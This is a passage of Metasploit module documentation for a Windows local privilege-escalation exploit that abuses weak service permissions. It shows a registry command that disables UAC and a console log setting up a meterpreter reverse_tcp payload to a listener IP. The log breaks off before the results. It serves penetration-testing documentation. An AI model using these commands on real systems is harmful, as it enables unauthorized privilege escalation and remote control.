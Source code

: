 ```
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Windows 7 SP1 x64 (Weak Registry Permissions Technique)

```
msf6 exploit(windows/local/service_permissions) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: WIN-9NSI4A6AIHJ\aliddle
meterpreter > sysinfo
Computer        : WIN-9NSI4A6AIHJ
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getsystem
[-] 2001: Operation failed: This function is not supported on this system. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/local/service_permissions) > set SESSION -1
SESSION => -1
msf6 exploit(windows/local/service_permissions) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/service_permissions) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(windows/local/service_permissions) > set TargetServiceName rpceptmapper
TargetServiceName => rpceptmapper
msf6 exploit(windows/local/service_permissions) > set VERBOSE true
VERBOSE => true
msf6 exploit(windows/local/service_permissions) > show options

Module options (exploit/windows/local/service_permissions):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   AGGRESSIVE  false            no        Exploit as many services as possible (dangerous)
   SESSION     -1               yes       The session to run this module on.
   TIMEOUT     10               yes       Timeout for WMI command in seconds


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:
```

[CreateServiceA]: https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicea